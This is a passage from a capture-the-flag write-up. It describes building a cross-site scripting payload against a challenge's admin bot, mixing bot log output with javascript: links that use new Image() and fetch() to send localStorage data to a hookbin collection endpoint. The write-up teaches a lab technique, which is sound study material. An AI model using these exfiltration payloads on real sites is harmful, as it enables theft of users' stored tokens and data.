 ```bash
admin3_1  | [0809/202810.394944:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin3_1  | [0809/202810.420350:ERROR:command_buffer_proxy_impl.cc(126)] ContextResult::kTransientFailure: Failed to send GpuControl.CreateCommandBuffer.
admin3_1  | Going to  https://fbg.rars.win/button?title=...&link=javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c='+window.localStorage.getItem('flag')
admin3_1  | [0809/202813.309781:INFO:CONSOLE(1)] "Uncaught SyntaxError: Unexpected identifier", source: https://fbg.rars.win/button?title=...&link=javascript:new%20Image().src=%27https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c=%27+window.localStorage.getItem(%27flag%27) (1)
```

Right, so there seems to be a syntax error? What if we send a simple request, without any extra data? 

```python
link = """javascript:new Image().src="<your hookbin endpoint>"""" # change this
```

Time to check:

```bash
admin3_1  | vistiting: {
admin3_1  |   title: '...',
admin3_1  |   link: "javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03'"
admin3_1  | } []
admin3_1  | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin3_1  | [0809/202948.026389:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin3_1  | 
admin3_1  | DevTools listening on ws://127.0.0.1:36589/devtools/browser/61c24fcb-bc1e-47c3-ac37-6fb90456910d
admin3_1  | [0809/202948.043770:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin3_1  | [0809/202948.073610:ERROR:command_buffer_proxy_impl.cc(126)] ContextResult::kTransientFailure: Failed to send GpuControl.CreateCommandBuffer.
admin3_1  | Going to  https://fbg.rars.win/button?title=...&link=javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03'

```

No errors and checking hookbin, it went through. So we can't really use a `+` probably? As that causes a syntax error. Well... in comes `fetch`. 

## Fetch

We try:

````javascript
javascript:fetch('<hookbin endpoint>')
````

As a simple test and it goes through! Now we can try sending some data! With fetch we can send headers as a dictionary, like so:

```javascript
fetch('<endpoint>', { headers:{ 'Content-Type' : 'test' } })
```
